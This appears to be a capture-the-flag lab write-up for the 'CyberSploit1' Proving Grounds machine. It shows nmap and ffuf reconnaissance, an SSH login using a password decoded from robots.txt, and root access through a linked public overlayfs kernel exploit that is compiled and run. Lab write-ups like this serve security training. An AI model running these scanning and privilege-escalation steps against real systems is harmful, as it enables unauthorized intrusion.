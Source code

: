 ## CyberSploit1 Proving Grounds
## Level: Easy
<hr>

Lets get started

# Recon

## PortScanning

command:```sudo nmap -A 192.168.245.92 -T4  -v -p-```

```
# Nmap 7.93 scan initiated Sun Jun 25 07:25:11 2023 as: nmap -A -T4 -v -p- -oN cybersploit1 192.168.245.92
Increasing send delay for 192.168.245.92 from 0 to 5 due to 749 out of 1872 dropped probes since last increase.
Increasing send delay for 192.168.245.92 from 5 to 10 due to 11 out of 24 dropped probes since last increase.
Warning: 192.168.245.92 giving up on port because retransmission cap hit (6).
Nmap scan report for 192.168.245.92
Host is up (0.21s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 011bc8fe18712860846a9f303511663d (DSA)
|   2048 d95314a37f9951403f49efef7f8b35de (RSA)
|_  256 ef435bd0c0ebee3e76615c6dce15fe7e (ECDSA)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-title: Hello Pentester!
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.2.22 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=6/25%OT=22%CT=1%CU=42183%PV=Y%DS=4%DC=T%G=Y%TM=6497E24
OS:8%P=x86_64-pc-linux-gnu)SEQ(SP=101%GCD=1%ISR=10C%TI=Z%II=I%TS=8)OPS(O1=M
OS:54EST11NW7%O2=M54EST11NW7%O3=M54ENNT11NW7%O4=M54EST11NW7%O5=M54EST11NW7%
OS:O6=M54EST11)WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN(R=Y%
OS:DF=Y%T=40%W=7210%O=M54ENNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=
OS:0%Q=)T2(R=N)T3(R=N)T4(R=N)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
OS:T6(R=N)T7(R=N)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=78
OS:ED%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Uptime guess: 0.013 days (since Sun Jun 25 07:25:29 2023)
Network Distance: 4 hops
TCP Sequence Prediction: Difficulty=257 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 256/tcp)
HOP RTT       ADDRESS
1   261.41 ms 192.168.45.1
2   261.40 ms 192.168.45.254
3   261.39 ms 192.168.251.1
4   261.40 ms 192.168.245.92

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jun 25 07:44:24 2023 -- 1 IP address (1 host up) scanned in 1153.06 seconds
```
From our scan we have 2 open ports, port 22 which runs ssh and port 80 which runs http. Enumeration today will be focused on port 80.



# Enumeration

Navigating to the webpage

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/d67ab198-c0fd-40d9-bd49-075c9b46036d)

Well, we were told to try something more😂. 

Checking the source page;

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/15ca60b9-b7a8-433a-bda3-41b87be75a45)

Cool,we found a username ```itsskv```

There's no login page to test this username against, but since we have port 22 (which runs ssh) open, our best guess will be to test the username for the ssh server. But we haven't found a password yet. Well, lets keep looking

Firing up ffuf

command:```ffuf -u "http://192.168.245.92/FUZZ" -w /usr/share/wordlists/dirb/common.txt -e .zip,.sql,.php,.phtml,.bak,.backup```

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/PG/cybersploit]
└─$ ffuf -u "http://192.168.245.92/FUZZ" -w /usr/share/wordlists/dirb/common.txt -e .zip,.sql,.php,.phtml,.bak,.backup

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.245.92/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Extensions       : .zip .sql .php .phtml .bak .backup 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

cgi-bin/                [Status: 403, Size: 290, Words: 21, Lines: 11, Duration: 227ms]
hacker                  [Status: 200, Size: 3757743, Words: 22955, Lines: 21776, Duration: 224ms]
index                   [Status: 200, Size: 2333, Words: 318, Lines: 51, Duration: 217ms]
index.html              [Status: 200, Size: 2333, Words: 318, Lines: 51, Duration: 221ms]
robots.txt              [Status: 200, Size: 53, Words: 1, Lines: 2, Duration: 163ms]
robots                  [Status: 200, Size: 53, Words: 1, Lines: 2, Duration: 167ms]
:: Progress: [32298/32298] :: Job [1/1] :: 170 req/sec :: Duration: [0:03:00] :: Errors: 0 ::
```
We found some interesting directories, navigating through the directories one by one

<h4>/cgi-bin/</h4>

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/db3185a6-861b-495d-b193-c06d83d75a70)

oops, we don't have permission to view the webpage.

<h4>/hacker</h4>

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/169e8dc9-792f-4500-a9fb-0f920aa80d0f)

This is more like the background gif, there's nothing else there.

<h4>/robots.txt</h4>

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/02deb6ed-eba0-49e3-b7b3-d1896f0f9de2)

Interesting, we found a base64 encoded text.

<h4>/robots</h4>

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/42b3dab0-8ce9-4334-8fdd-cdc5953f0fe8)

This contains the same base64 encoded text we found in the ```/robots.txt``` directory.

Decoding the encoded text

command:```echo "Y3liZXJzcGxvaXR7eW91dHViZS5jb20vYy9jeWJlcnNwbG9pdH0=" | base64 -d```

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/PG/cybersploit]
└─$ echo "Y3liZXJzcGxvaXR7eW91dHViZS5jb20vYy9jeWJlcnNwbG9pdH0=" | base64 -d
cybersploit{youtube.com/c/cybersploit}
```
Well. that looks like a flag. 

Let me give you a little shocker😂, that decoded text that looks like a flag is the password to the ssh server😆.

username:```itsskv```      password:```cybersploit{youtube.com/c/cybersploit}```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/30852181-450f-4a9b-a0bb-d430400c5091)

cool, we are logged in. Lets go ahead and escalate our privileges




# Privilege Escalation

Using the command

command:```cat /etc/issue```

We find out that there is an outdated kernel version

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/67046468-83b1-427b-87f0-0371606561dd)

The Linux Kernel is vulnerable to ```overlayfs```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/9db41fce-07da-4995-8c7a-c6f7b058d3ff)

You can get the exploit [here](https://www.exploit-db.com/exploits/37292)

Sending the exploit over to the target machine

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/2822f966-c492-4b34-8822-73f5dba6e496)

Now, lets compile

command:```gcc abeg.c -o abeg```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/09a9ee98-3bbc-4d1c-89b0-0eb4c33ed5c8)

Now, lets execute the file

command:```./abeg```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/1c80352c-0acb-46e6-abfd-1f76f04a379a)

cool, we got a shell as root😎



That will be all for today
<br> <br>
[Back To Home](../../index.md)











